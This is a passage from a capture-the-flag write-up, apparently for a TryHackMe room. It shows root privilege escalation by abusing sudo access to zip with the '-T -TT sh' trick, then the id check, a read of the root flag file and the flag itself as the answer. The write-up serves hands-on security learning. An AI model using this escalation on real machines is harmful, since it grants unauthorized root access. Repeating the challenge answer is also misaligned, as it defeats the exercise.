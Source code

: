 ![7](https://github.com/Knign/Write-ups/assets/110326359/3f4fca1b-8adc-4ab9-bb1b-065afa48e7a8)

Let's use the exploit.
```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# 
```
Looks like we have root privilege. We can verify that using the `id` command.
```
# id
uid=0(root) gid=0(root) groups=0(root)
```
Let's cat the root flag.
```
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```
### Answer
```
THM{Z1P_1S_FAKE}
```
